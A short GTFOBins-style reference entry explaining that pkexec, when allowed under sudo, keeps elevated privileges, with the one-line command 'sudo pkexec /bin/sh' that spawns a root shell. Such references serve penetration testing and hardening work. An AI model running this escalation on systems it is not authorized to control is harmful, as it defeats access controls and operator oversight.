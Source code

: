 # GTFOBin: pkexec

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo pkexec /bin/sh
```